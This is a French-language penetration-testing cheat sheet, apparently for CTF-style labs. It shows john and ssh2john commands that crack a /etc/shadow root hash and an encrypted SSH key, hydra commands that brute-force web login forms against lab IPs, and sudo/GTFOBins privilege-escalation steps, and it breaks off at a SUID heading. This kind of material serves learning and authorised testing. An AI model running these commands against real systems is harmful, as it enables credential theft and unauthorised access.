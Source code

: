 # 1) Cracker un mot de passe chiffré
1. On obtient un mot de passe présent dans /etc/shadow, on le récupère dans un fichier root.hash
```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```
2. On crack le hash via john
```
john --wordlist=/chemin/vers/wordlist root.hash
```

# 2) Cracker un clef RSA chiffré
1. On met la main sur une cléf RSA chiffré, on la récupère et on la mets dans un fichier id_rsa
2. On converti la clé RSA chiffrée en format John-readable
```
ssh2john id_rsa > id_rsa.hash
```
3. On crack le hash avec John 
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
4. Se connecter en renseignant la cléf 
```
ssh [USER]@[IP] -i [CLEF]
```

# 3) Bruteforce un formulaire web
## Hydra 
1. Noté les noms des balises username et password
2. Vérifier si il s'agit d'une méthode POST ou GET
3. Récuperer message d'erreur 
4. Récupérer l'URL de la page 
5. Ne pas modifier ^USER^ et ^PASS^ 
6. Modifier le login, la méthode, l'URL d'accès, Le message d'erreur
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.170.167 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
ou
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.148.66 http-get /protected
```
# 4) Elevation de privilèges Linux
## Sudo 
* **Base de la faille** : Sudo permet d'executer une commande en tant que root.
* **Comment c'est possible** : Disons qu'un utilisateur peut exécuter `vim` avec `sudo` sans mot de passe. Cela signifie qu'il peut éditer n'importe quel fichier en tant que `root` ou lancer un shell avec des droits `root`.
1. On regarde les commandes executables en sudo 
```
sudo -l
```
2. On cherche sur GTFObins les possibilités de la commande en tant que root pour :
	* Obtenir un shell root
	* Lire un fichier sensible : /etc/shadow
	* Modifier fichier sensible (crontab par exemple)
	* Déployer un reverse shell
	* Transfert de fichiers
## SUID